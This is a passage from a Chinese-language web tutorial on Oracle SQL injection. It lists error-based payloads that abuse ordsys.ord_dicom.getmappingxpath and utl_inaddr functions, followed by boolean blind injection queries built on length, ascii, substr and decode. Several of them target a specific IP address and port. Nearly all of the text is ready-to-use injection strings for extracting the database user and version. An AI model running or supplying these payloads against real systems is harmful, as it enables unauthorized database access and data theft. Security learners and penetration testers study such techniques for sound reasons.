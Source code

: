 [![img](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095415-e14b3024-f00f-1.png)](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095415-e14b3024-f00f-1.png)

#### 7、ordsys.ord_dicom.getmappingxpath()

```
?id=1 and 1=ordsys.ord_dicom.getmappingxpath((select banner from sys.v_$version where rownum=1),user,user)--
```

#### 8、utl_inaddr.*()

utl_inaddr（用于取得局域网或Internet环境中的主机名和IP地址）
[![img](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095416-e1770fdc-f00f-1.png)](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095416-e1770fdc-f00f-1.png)

```
?id=1 and 1=utl_inaddr.get_host_name((select user from dual)) --?id=1 and 1=utl_inaddr.get_host_address((select user from dual)) --
```

[![img](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095416-e195b414-f00f-1.png)](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095416-e195b414-f00f-1.png)
[![img](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095416-e1b9c25a-f00f-1.png)](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095416-e1b9c25a-f00f-1.png)

# 0x05 布尔型盲注

常用猜解：

```
#猜长度?id=1 and 6=(select length(user) from dual)--#截取值猜ascii码?id=1 and (select ascii(substr(user,1,1)) from dual)>83?id=1 and (select ascii(substr(user,1,1)) from dual)=83
```

[![img](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095416-e1e05eb0-f00f-1.png)](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095416-e1e05eb0-f00f-1.png)

#### 1、decode函数布尔盲注

decode(字段或字段的运算，值1，值2，值3）
这个函数运行的结果是，当字段或字段的运算的值等于值1时，该函数返回值2，否则返回3

##### 测试用户名长度

```
http://219.153.49.228:44768/new_list.php?id=1 and 6=(select length(user) from dual) --
```

##### 测试当前用户是否为SYSTEM

```
#如果是system用户则返回正常，不是则返回不正常http://219.153.49.228:44768/new_list.php?id=1 and 1=(select decode(user,'SYSTEM',1,0) from dual) --
#使用substr截断，逐个字段进行猜解http://219.153.49.228:44768/new_list.php?id=1 and 1=(select decode(substr(user,1,1),'S',1,0) from dual) -- ?id=1 and 1=(select decode(substr(user,2,1),'Y',1,0) from dual) -- ?id=1 and 1=(select decode(substr(user,3,1),'S',1,0) from dual) --?id=1 and 1=(select decode(substr(user,4,1),'T',1,0) from dual) --?id=1 and 1=(select decode(substr(user,5,1),'E',1,0) from dual) --?id=1 and 1=(select decode(substr(user,6,1),'M',1,0) from dual) --#当然也可以配合ascii码进行猜解?id=1 and 1=(select decode(ascii(substr(user,1,1)),'83',1,0) from dual) --
```
